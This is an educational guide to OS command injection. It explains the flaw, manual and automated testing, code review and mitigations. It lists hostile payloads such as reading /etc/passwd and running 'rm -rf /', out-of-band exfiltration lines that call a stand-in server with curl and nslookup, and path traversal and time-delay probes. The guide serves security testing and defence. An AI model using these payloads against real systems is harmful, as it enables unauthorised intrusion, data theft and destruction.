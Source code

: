**OS command injection** is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands. Any web interface that is not properly sanitized is subject to this exploit. With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords. OS command injection is preventable when security is emphasized during the design and development of applications.

**OS Command Injection** happens when an application passes unsafe user-supplied data (e.g., input from a form, URL parameters, or cookies) to a system shell without proper validation or sanitization.

**How It Works:**

**User Input:** The application takes input from a user (e.g., via a web form or API request).

**Unsafe Execution:** The input is directly used in a system command without proper validation or escaping.

Command Execution: An attacker crafts malicious input to inject additional OS commands, which are executed by the server.

**1. Manual Testing**

Identify Input Points: Look for places in the application where user input is accepted (e.g., forms, URL parameters, cookies, headers).

Test with Malicious Input: Inject special characters and commands to see if the application executes them.

Common injection payloads:

**;**  (command separator in Unix-like systems)

**&**  (background execution in Unix-like systems)

**|**  (pipe operator)

**&&**  (conditional execution)

**$(...)  or  `...`**  (command substitution)

**||**  (OR operator)

**> or <**  (redirection operators)

Example payloads:

; ls  (list files)

; whoami  (check current user)

; cat /etc/passwd  (read sensitive file)

; rm -rf /  (delete files)

Observe Behavior: Check if the application executes the injected command or returns unexpected output.

**2. Automated Tools**

Use security scanning tools to automate the detection process. Some popular tools include:

Burp Suite: A web vulnerability scanner that can test for command injection.

OWASP ZAP: An open-source tool for finding vulnerabilities, including command injection.

Nikto: A web server scanner that can detect misconfigurations and vulnerabilities.

Nmap: Can be used to test for command injection in network services.

Acunetix: A commercial tool for detecting web vulnerabilities, including OS command injection.

**3. Code Review**

Look for Dangerous Functions: Identify functions that execute system commands and check if user input is passed to them without proper sanitization.

Examples of dangerous functions:

In PHP: system(), exec(), passthru(), shell_exec(), `...`

In Python: os.system(), subprocess.run(), subprocess.Popen()

In Java: Runtime.exec()

In Node.js: child_process.exec(), child_process.spawn()

Check for Input Sanitization: Ensure that user input is properly validated, sanitized, or escaped before being used in commands.

Use Safe Alternatives: Look for safer alternatives, such as parameterized APIs or libraries that avoid direct command execution.

**4. Fuzz Testing**

Use fuzzing tools to send random or malformed input to the application and observe its behavior.

Tools like wfuzz or ffuf can help automate this process.

**5. Monitor Server Logs**

Check server logs for unusual commands or errors that might indicate an attempted command injection.

Look for patterns like repeated use of special characters or unexpected commands.

**6. Test for Blind Command Injection**

Sometimes, the application does not return the output of the command directly. In such cases, use techniques like:

Time Delays: Inject commands like sleep 5 and observe if the application responds after a delay.

Out-of-Band (OOB) Techniques: Use tools like curl or wget to send requests to an external server controlled by you.

Example: ; curl http://your-server.com/$(whoami)

DNS Requests: Inject commands that trigger DNS lookups to your server.

Example: ; nslookup $(whoami).your-server.com

**7. Check for Context-Specific Vulnerabilities**

Some applications use user input in specific contexts (e.g., file paths, URLs). Test for vulnerabilities in these contexts:

Example: If the application uses user input in a file path, try injecting ../../etc/passwd to access sensitive files.

**8. Use Security Headers and WAFs**

Deploy a Web Application Firewall (WAF) to detect and block command injection attempts.

Use security headers like Content-Security-Policy to restrict the execution of unsafe scripts.

By combining these techniques, you can effectively detect and mitigate OS Command Injection vulnerabilities in your applications. Always follow secure coding practices and regularly test your applications for vulnerabilities.

Detecting **blind OS command injection** using time delays

You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond. The ping command is a good way to do this, because lets you specify the number of ICMP packets to send. This enables you to control the time taken for the command to run:

**& ping -c 10 127.0.0.1 &**

This command causes the application to ping its loopback network adapter for 10 seconds.
